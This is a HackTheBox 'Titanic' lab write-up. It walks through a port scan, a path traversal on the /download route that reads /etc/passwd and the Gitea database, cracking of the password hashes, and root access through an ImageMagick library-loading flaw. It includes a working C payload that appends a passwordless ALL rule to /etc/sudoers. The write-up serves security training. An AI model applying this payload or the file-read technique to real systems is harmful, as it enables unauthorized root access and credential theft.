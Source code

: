---------------

### CTF: HACKTHEBOX
### LAB: TITANIC

----------------

![image](https://github.com/user-attachments/assets/c569dd2e-6082-4668-88d7-9d752cab0fcd)

----------------

- Rustscan's result

```bash
❯ rustscan -a titanic.htb -- -Pn -sC -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

[~] The config file is expected to be at "/home/sensei/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.11.55:22
Open 10.10.11.55:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-18 11:53 WAT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 11:53
Completed NSE at 11:53, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 11:53
Completed NSE at 11:53, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 11:53
Completed NSE at 11:53, 0.00s elapsed
Initiating Connect Scan at 11:53
Scanning titanic.htb (10.10.11.55) [2 ports]
Discovered open port 80/tcp on 10.10.11.55
Discovered open port 22/tcp on 10.10.11.55
Completed Connect Scan at 11:53, 0.91s elapsed (2 total ports)
Initiating Service scan at 11:53
Scanning 2 services on titanic.htb (10.10.11.55)
Completed Service scan at 11:53, 6.80s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.11.55.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 11:53
Completed NSE at 11:54, 6.35s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 11:54
Completed NSE at 11:54, 0.88s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 11:54
Completed NSE at 11:54, 0.00s elapsed
Nmap scan report for titanic.htb (10.10.11.55)
Host is up, received user-set (0.91s latency).
Scanned at 2025-02-18 11:53:50 WAT for 16s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGZG4yHYcDPrtn7U0l+ertBhGBgjIeH9vWnZcmqH0cvmCNvdcDY/ItR3tdB4yMJp0ZTth5itUVtlJJGHRYAZ8Wg=
|   256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDT1btWpkcbHWpNEEqICTtbAcQQitzOiPOmc3ZE0A69Z
80/tcp open  http    syn-ack Apache httpd 2.4.52
|_http-favicon: Unknown favicon MD5: 79E1E0A79A613646F473CFEDA9E231F1
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/3.0.3 Python/3.10.12
|_http-title: Titanic - Book Your Ship Trip
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

-  I discovered a subdomain `dev` with ffuf.We'll come back to this later

![image](https://github.com/user-attachments/assets/3c80c7ac-2a3f-40d2-87b8-b7980e04e473)

-  On the main page,there is a route `/book` that helps to submit user forms.Using `Chrome Dev tools`,I noticed that the server makes a `POST` request
to another route `/download` to read files.

![image](https://github.com/user-attachments/assets/0357de7f-837e-42e3-8c69-ccd506d6ee4d)

- I tested the route and was able to read `/etc/passwd`.

![image](https://github.com/user-attachments/assets/0a3a236b-613b-45a5-a10a-7d5de27a0f97)

- There is a user `/developer` on the server who will be our main target till we gain foothold on the server.

```text
developer:x:1000:1000:developer:/home/developer:/bin/bash
```

- `Gitea` runs on the subdomain `dev`.It also contains repositories for the flask app and docker config.

![image](https://github.com/user-attachments/assets/11d61cbc-fd00-4cc6-8bbc-cb32ba1287a5)

- The docker config contains the custom installation directory for gitea.

![image](https://github.com/user-attachments/assets/8aa9ad3d-c0f1-41bb-b543-f4da1be92cdb)

- After checking for necessary backend files for `Gitea`,I discovered the important ones which are `app.ini` and `gitea.db`.The `gitea.db` contains the pbkdf2 hashes for Gitea users which can be cracked.I was able to read it.

![image](https://github.com/user-attachments/assets/32effff5-67b6-4ced-ad11-3db616a6e38f)

- I got a one liner from [Oxdf](https://0xdf.gitlab.io/2024/12/14/htb-compiled.html#winrm) to extract and create pbkdf2 hashes

![image](https://github.com/user-attachments/assets/469286d1-2e60-4b25-8d95-038af68a2c8b)

- I cracked it with hashcat as also explained in the writeup

![image](https://github.com/user-attachments/assets/e00a6901-5178-4b40-bccc-e48e7cdde03d)

- SSH access with the password

![image](https://github.com/user-attachments/assets/3b3b0f38-9725-48f6-bd5c-1ae99a9968e9)

-----------------

### PRIVESC-: Image Magick

-----------------

- I discovered this script in `/opt/scripts` that identify images with the `Image magick` binary.

![image](https://github.com/user-attachments/assets/86c903bb-3a5e-4a37-a70f-146f741e4f18)

- This version of image magick is vulnerable to Code Execution as explained here [Image Magick](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8).

![image](https://github.com/user-attachments/assets/784dd5a2-816c-4bc2-b9cd-d805ed93aa97)


- I tweaked the POC to grant root privileges by adding an `all` rule to the `/etc/sudoers` file.

```bash
gcc -x c -shared -fPIC -o /opt/app/static/assets/images/libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
  system("echo 'developer ALL=(ALL:ALL) NOPASSWD: ALL' >> /etc/sudoers");
  exit(0);
}
EOF
```
- I ran `sudo -l` to confirm if the rule has been added.

![image](https://github.com/user-attachments/assets/9bd940f9-275b-40d7-9dd7-14f87350583f)

- Root-:

![image](https://github.com/user-attachments/assets/387ad12a-6e87-4b98-a70e-2079c3503a6c)

-----------------

### THANKS FOR READING

-----------------

### REFERENCE-:

-----------------

- [Image Magick Code Execution](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)

-----------------











